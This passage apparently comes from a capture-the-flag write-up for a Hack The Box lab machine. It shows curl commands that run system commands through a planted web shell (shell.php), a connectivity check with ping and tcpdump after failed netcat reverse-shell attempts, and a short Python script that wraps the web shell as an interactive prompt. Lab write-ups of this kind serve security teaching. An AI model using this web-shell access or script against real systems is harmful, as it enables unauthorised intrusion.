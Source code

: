 ```

root@kali# curl -G http://sec03.rentahacker.htb/shell.php --data-urlencode "hidden=id"
uid=1003(ib01c03) gid=1004(customers) groups=1004(customers)

```

### Connectivity

Unfortunately, I can’t seem to get anything to connect back to me. I tried on numerous ports to connect back with `nc`, but all without success. I was able to ping myself:

```

root@kali# curl -G http://sec03.rentahacker.htb/shell.php --data-urlencode "hidden=ping -c 1 10.10.14.5"
PING 10.10.14.5 (10.10.14.5) 56(84) bytes of data.
64 bytes from 10.10.14.5: icmp_seq=1 ttl=63 time=23.1 ms
--- 10.10.14.5 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 23.107/23.107/23.107/0.000 ms

```

And see the it locally:

```

root@kali# tcpdump -i tun0 -n icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
07:22:56.316603 IP 10.10.10.155 > 10.10.14.5: ICMP echo request, id 13436, seq 1, length 64
07:22:56.316662 IP 10.10.14.5 > 10.10.10.155: ICMP echo reply, id 13436, seq 1, length 64 

```

I’ll look at the IpTables rules in [Beyond Root](#iptables).

### Simple Shell

Given that I’ll be enumerating with just the RCE, I’ll script a shell to make it easier:

```

#!/usr/bin/env python3

import requests
from cmd import Cmd

class Term(Cmd):
    prompt = "scavenger> "

    def default(self, args):
        resp = requests.get('http://sec03.rentahacker.htb/shell.php',
                params = {"hidden": args}, proxies={'http':'http://127.0.0.1:8080'})
        print(resp.text)

term = Term()
term.cmdloop()

```
